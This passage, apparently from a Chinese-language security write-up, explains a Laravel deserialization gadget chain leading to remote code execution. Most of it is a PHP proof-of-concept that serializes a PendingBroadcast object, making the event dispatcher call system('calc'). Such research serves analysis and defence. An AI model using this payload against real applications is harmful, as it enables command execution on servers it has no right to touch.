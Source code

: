 > 控制了 `$listener` 的取值之后，将传入的 `$event` 的值作为命令执行函数的参数值即可来进行 RCE 操作

### exp
```php
<?php
namespace Illuminate\Events {
    class Dispatcher {
        protected $listeners = [];
        public function __construct() {
            $this->listeners = ["calc" => ["system"]];
        }
    }
}



namespace Illuminate\Broadcasting {
    use  Illuminate\Events\Dispatcher;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = "calc";
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

<img src="./images/poc-4-3.png" alt="">
